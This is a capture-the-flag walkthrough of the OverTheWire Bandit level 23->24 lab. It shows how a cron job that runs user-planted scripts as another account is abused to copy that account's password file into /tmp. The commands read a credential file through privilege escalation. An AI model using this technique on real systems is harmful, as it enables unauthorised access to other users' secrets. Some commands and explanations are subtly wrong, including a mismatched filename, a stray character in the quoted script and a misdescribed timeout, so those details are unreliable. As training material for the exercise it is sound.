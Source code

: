 ```yaml
---
title: OverTheWire Bandit Level 23 -> 24
author: Michael McDonagh
pubDatetime: 2025-03-01T22:50:00Z
slug: overthewire-bandit-24
featured: false
draft: false
tags:
  - overthewire
  - bandit
  - linux
  - cron
ogImage: ""
description: Solution for OverTheWire Bandit level 24 challenge.
---
```


## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very bcd ig step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## Walkthrough

Solution for the Overthewire.org [Bandit level 23 -> 24](https://overthewire.org/wargames/bandit/bandit24.html)

Login to the server using the password obtained from the previous level [Bandit level 22 -> 23](/posts/overthewire-bandit-23).  

username: `bandit23`  

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

This level is cron job related like the previous few levels so first thing to do is check the `/etc/cron.d` directory.

```bash
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

This time the cronjob we need to investigate is `cronjob_bandit24`.  

```bash
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

The cronjob is running the script `cronjob_bandit24.sh` as user bandit24 every minute. So let's see what it is doing.  

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i-
        fi
        rm -f ./$i
    fi
done
```

The bash script is doing:

* Running `whoami` and storing the value in `myname` (bandit24 in this instance)
* Changing into the `/var/spool/bandit24` directory

* for each **file** in `/var/spool/bandit24` (files and hidden files)
  * if **file** is not `.` (current directory) and  **file** is not `..`(parent directory)
    * print 'Handling **file**' to the screen
    * Assign the name of the owner of the **file** to a variable "owner"
    * if "owner" equals 'bandit23'
      * wait 60 seconds and then run the **file**
    * delete **file**

Since we are bandit23, any file we create and place into `/var/spool/bandit24`  
will be run as user bandit24. The file is deleted after being run.

We can create a script to read the password file `/etc/bandit_pass/bandit24` and save it in a new file elsewhere.  

Create a file named `get_bandit24_pass` in `/tmp`.  
Write this line inside the file.

```bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_for_bandit24
```

Give the file execute permission so it can be run and then copy it to the `/var/spool/bandit24` directory.

```bash
bandit23@bandit:/tmp$ chmod +x get_bandit24_pass

bandit23@bandit:/tmp$ cp get_bandit_pass /var/spool/bandit24/
```

Now wait 60 seconds and check for a file named `pass_for_bandit24` in tmp.
It will contain the password for bandit24.

```bash
bandit23@bandit:/tmp$ cat pass_for_bandit24 
UoMYTr##########################

```
